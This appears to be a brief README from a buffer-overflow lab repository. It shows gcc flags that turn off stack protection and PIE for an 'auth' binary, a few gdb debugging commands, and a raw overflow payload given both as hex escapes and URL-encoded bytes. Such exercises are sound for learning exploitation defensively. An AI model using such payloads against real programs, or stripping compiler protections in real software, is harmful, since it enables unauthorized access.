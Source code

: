 # buffer_overflow_attack
it important to notice that we must install mingw compiler first
for windows run gcc -g -fno-stack-protector main.c -o auth -W -no-pie -lws2_32 //the -g is for debugging and the rest is to make sure that stack pointer is not protected
now run the ./file_name // the exe file
b function_name // breakpoint
p var_name // print the details of the var (including address in the stack pointer)


\x00\x00\x00\x00\x00\xee\x02\x00\x00\x00\x00\x00\x00\x90\xfc\x61\x00\x00\x00\x00\x00\x21\x18\x40
%00%00%00%00%00%ee%02%00%00%00%00%00%00%90%fc%61%00%00%00%00%00%21%18%40
info frame
